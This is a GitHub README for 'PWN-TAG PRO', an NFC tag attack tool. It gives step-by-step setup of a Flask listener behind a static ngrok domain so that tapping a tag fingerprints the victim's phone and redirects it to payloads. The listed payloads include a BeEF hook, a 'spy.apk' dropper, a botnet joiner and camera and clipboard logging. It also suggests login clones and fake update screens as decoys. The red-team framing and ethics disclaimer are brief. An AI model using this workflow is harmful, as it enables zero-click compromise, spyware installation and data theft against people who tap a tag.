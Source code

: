 # PWN-TAG PRO  
_Use with paid ngrok accounts — full zero-click payload delivery_

_"tag to pwn"_ — NFC payload delivery system for social engineering, red team ops, and mobile testing.

PWN-TAG lets you write NFC tags that trigger live payloads on mobile devices — from fingerprinting to botnet enrollment. Built for ethical hackers, educators, defenders, and curious minds.

---

##  What You Need

*  NFC tag stickers (~$10 for 25):  
  https://a.co/d/gl2XRV8

*  NFC writer app (free):  
  https://apps.apple.com/app/id1252962749

*  Debian-based Linux system
*  
*  [ngrok account](https://ngrok.com/) with paid plan (static subdomain required)

---

##  Branches

| Branch       | Purpose                                                                 |
|--------------|-------------------------------------------------------------------------|
| `main`       | Free-tier version using randomized ngrok URLs (tap + browser confirm)   |
| `ngrok-pro`  | Paid ngrok version with reserved domains → **zero-click payloads**      |

---

##  Installation (Clone + Setup)

```bash
git clone https://github.com/ekomsSavior/PWN-TAG.git
cd PWN-TAG
````

Switch to the pro branch:

```bash
git checkout ngrok-pro
```

Install Python dependencies:

```bash
sudo apt update
sudo apt install python3 python3-pip -y
pip3 install flask --break-system-packages
```

---

##  ngrok Setup

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
sudo mv ngrok /usr/local/bin/
```

Authenticate your account:

```bash
ngrok config add-authtoken <YOUR_NGROK_AUTH_TOKEN>
```

Reserve a static domain like `pwn-tag.ngrok.app` inside your ngrok dashboard.

---

##  Usage (2 Terminal Workflow)

### Terminal 1 — Start Flask Payload + Listener Server

```bash
python3 flask_server.py
```

 This now:

* Serves all payloads (HTML, APK, etc.)
* Handles `/testlog`, `/camlog`, `/cliplog`, etc.
* Runs on port `8080`

---

### Terminal 2 — Start ngrok Tunnel

```bash
ngrok http --domain=pwn-tag.ngrok.app 8080
```

 You’re now live at:

```
https://pwn-tag.ngrok.app
```

---

##  Write Your NFC Tag

In your NFC writer app:

1. Tap **Write**
2. Add Record → **URL**
3. Paste:

```
https://pwn-tag.ngrok.app/payloads/test_shell.html
```

4. Tap to write

Now when someone taps the tag:

* `test_shell.html` loads
* Device fingerprint is POSTed to your listener
* Redirect triggers to any final payload

---

##  Payload Options (Examples)

| Payload               | Path                       | Description                                                |
| --------------------- | -------------------------- | ---------------------------------------------------------- |
| **Test Shell**        | `payloads/test_shell.html` | Logs fingerprint, then redirects to real payload           |
| **Full Beacon Shell** | `payloads/beef_shell.html` | Loads BEEF hook (must run BEEF server separately)          |
| **APK Dropper**       | `payloads/spy.apk`         | Sends APK file directly to Android users                   |
| **Rogue Joiner**      | `payloads/bot_joiner.html` | Simulates Rogue botnet join behavior — JS beacon or loader |

---

##  Swapping Payloads

Edit this in `payloads/test_shell.html`:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/YOUR_PAYLOAD_HERE";
```

Example:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/spy.apk";
```

 You do **not** need to reprogram your NFC tag if you’re using a static domain.

---

##  Pro Tips

*  Make multiple redirectors: `redirect_to_apk.html`, `redirect_to_bot.html`, etc.
*  Replace `index.html` with a 403 decoy, fake update screen, or login clone
*  Add geolocation or IP info: use `fetch('https://ipinfo.io/json')`
*  Chain with `clipboard.js`, `camlog`, or `result.js` for layered payloads
*  With static ngrok domains, your tags stay valid forever — just update server logic

---

## 🛡 Ethical Usage

This tool is intended for **educational use, red team simulation, and defense research only.**
Do not deploy it against real targets without consent. You are responsible for your actions.

---

##  Extras Coming Soon

*  `setup_repo.sh` for auto-deployment
*  `payloads/README.md` to explain demo files
*  BEEF hook setup help
*  QR payload variants for phones without NFC

---

Tag smart.
Pwn hard.
— ek0ms

